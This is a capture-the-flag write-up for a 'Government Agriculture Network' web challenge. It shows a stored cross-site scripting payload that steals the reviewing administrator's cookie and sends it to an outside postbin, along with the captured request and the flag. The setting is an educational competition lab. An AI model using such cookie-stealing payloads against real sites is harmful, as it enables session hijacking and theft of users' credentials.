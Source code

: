 # Government Agriculture Network

![img](./assets/government-agriculture-network-task.png)

#### **Given:** web-address https://govagriculture.web.ctfcompetition.com/

Following the link we get to the **Ministry of Agriculture** website. 

![img](./assets/ministry-of-agriculture.png)

Quick inspection of the source code doesn't give out a lot.

There's a form to create a new post and a link to `/admin` page, which doesn't really work (`303 SEE OTHER` upon navigation and redirect back to main page).

Let's try to create a new post. On submit we're being redirected to `/post` page with following message:

```
Your post was submitted for review. Administator will take a look shortly.
```
This message gives an important piece of information: administrator is going to review our message. If there's a xss vulnerability present then it can be possible to execute a script in administrator's browser.

Let's create a [postbin](https://postb.in/) and write up a simple script which will call our postbin upon execution by the victim's browser:

```
<script>document.location.href='https://postb.in/1586263800460-8725055831018'</script>
```
Immediately after submitting this script we can see that the request reached the bin:
```
x-real-ip: 104.155.55.51
host: postb.in
user-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/80.0.3987.0 Safari/537.36
accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
referer: https://govagriculture.web.ctfcompetition.com/pwn?msg=%3Cscript%3Edocument.location.href%3D%27https%3A%2F%2Fpostb.in%2F1586263800460-8725055831018%27%3C%2Fscript%3E
[...]
```

Let's modify the script to fetch admin's cookies and send it to us:
```
<script>
cookie = document.cookie
document.location.href='https://postb.in/1586263800460-8725055831018?cookie=' + cookie
</script>
```
In postbin we see:
```
Query
cookie: flag=CTF{8aaa2f34b392b415601804c2f5f0f24e};
```

**Flag: CTF{8aaa2f34b392b415601804c2f5f0f24e}**
